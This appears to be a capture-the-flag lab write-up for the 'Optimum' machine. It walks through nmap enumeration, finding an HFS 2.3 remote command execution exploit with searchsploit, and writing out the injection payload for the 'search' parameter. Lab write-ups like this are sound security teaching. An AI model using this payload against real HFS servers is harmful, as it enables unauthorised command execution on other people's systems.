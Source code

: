 # Optimum (10.10.10.8)

## Enumeration

### nmap

```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-18 03:12 PDT
Nmap scan report for 10.10.10.8
Host is up (0.37s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.18 seconds
```

### Port 80

![](Assets/1.png)

- The bottom of the page gives the exact version of HFS running, 2.3.

## Exploitation

- using searchsploit found we have an RCE on to the same version.

```
┌──(kali㉿kali)-[~/Desktop/Optimum]
└─$ searchsploit HttpFileServer 2.3 
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                 | windows/webapps/49125.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- downloaded the payload from `https://www.exploit-db.com/exploits/49125`.
- the payload does nothing but has a command execution vulernability in parameter `search` of homepage, where we can in incude command using exec function like this: `/?search=%00{{.+exec|<COMMAND>.}}'`
